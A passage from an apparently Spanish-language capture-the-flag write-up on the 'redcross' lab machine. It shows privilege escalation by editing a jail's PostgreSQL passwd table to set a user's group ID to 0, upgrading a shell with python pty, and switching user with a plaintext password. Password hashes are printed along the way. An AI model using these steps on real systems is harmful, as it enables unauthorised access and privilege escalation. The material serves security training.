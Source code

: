 ``` text
    TABLE "shadow_table" CONSTRAINT "st_username_fkey" FOREIGN KEY (username) REFERENCES passwd_table(username) ON DELETE CASCADE
    TABLE "usergroups" CONSTRAINT "ug_uid_fkey" FOREIGN KEY (uid) REFERENCES passwd_table(uid) ON DELETE CASCADE

select * from passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell
----------+------------------------------------+------+------+-------+----------------+-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 miau     | $1$aINCdBU3$DI6tECMqjpMZ.D5c/DkpM/ | 2020 | 1001 |       | /var/jail/home | /bin/bash
(2 rows)

```

# privesc

Aparece nuestro usuario `miau`, que como recordamos pertenece a un ambiente enjaulado. Dicho ambiente enjaulado nos entregaba una shell limitada, un home donde no teníamos permisos de acercarnos al root (*/*), pero ahora que tenemos acceso a donde se encuentra estas propiedades, confiemos en que el script que se encarga de modificar la 'jaula' responda ante los cambios en la base de datos.

En el ambiente enjaulado agrega a todos los usuarios nuevos al grupo limitado con *GID* 1001, el cual nos impidió realizar algunas tareas, pero ahora que tenemos acceso a la DB, podemos cambiar esa propiedad. Cambiemos esta propiedad a 0:

``` text
update passwd_table set gid=0 where username='miau';
select * from passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell
----------+------------------------------------+------+------+-------+----------------+-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 miau     | $1$aINCdBU3$DI6tECMqjpMZ.D5c/DkpM/ | 2020 |    0 |       | /var/jail/home | /bin/bash
(2 rows)
```

Ahora hagamos un upgrade de nuestra shell y accedamos como miau:

``` text
www-data@redcross:/var/www/html/admin/pages$ python -c 'import pty; pty.spawn("/bin/bash")'
<s$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@redcross:/var/www/html/admin/pages$ su - miau
su - miau
Password: CCutRKf7

miau@redcross:~$
```

Pero ser del grupo root no nos hace root.

``` text
miau@redcross:~$ cat /root/root.txt /home/penelope/user.txt
cat /root/root.txt /home/penelope/user.txt
cat: /root/root.txt: Permission denied
cat: /home/penelope/user.txt: Permission denied
miau@redcross:~$ ls -lah /root
ls -lah /root
total 64K
drwxr-x---  6 root root 4.0K Oct 31 12:33 .
drwxr-xr-x 22 root root 4.0K Jun  3  2018 ..
-rw-------  1 root root    0 Oct 31 12:33 .bash_history
-rw-r--r--  1 root root 3.4K Jun 10  2018 .bashrc
drwxr-xr-x  3 root root 4.0K Jun  6  2018 bin
drwxrwxr-x 11 root root 4.0K Jun  7  2018 Haraka-2.8.8
drwxr-xr-x  4 root root 4.0K Jun  7  2018 .npm
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   24 Jun 10  2018 .psqlrc
```